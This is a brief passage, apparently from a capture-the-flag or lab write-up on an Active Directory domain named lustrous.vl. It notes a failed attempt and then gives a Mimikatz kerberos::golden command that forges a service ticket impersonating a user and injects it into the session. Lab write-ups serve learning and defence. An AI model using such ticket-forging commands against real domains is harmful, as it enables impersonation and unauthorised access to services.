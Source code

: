 <img src="attachments/f4bd7b9214db8c6a1e1561351b76e548.png" />

---

We tried to execute the attack from the Windows host but failed because our command was incorrect.

```
kerberos::golden /domain:lustrous.vl /sid:S-1-5-21-2355092754-1584501958-1513963426 /rc4:<SERVICE_ACCOUNT_HASH> /user:tony.ward /target:LusApp.lustrous.vl /service:http /ptt
```
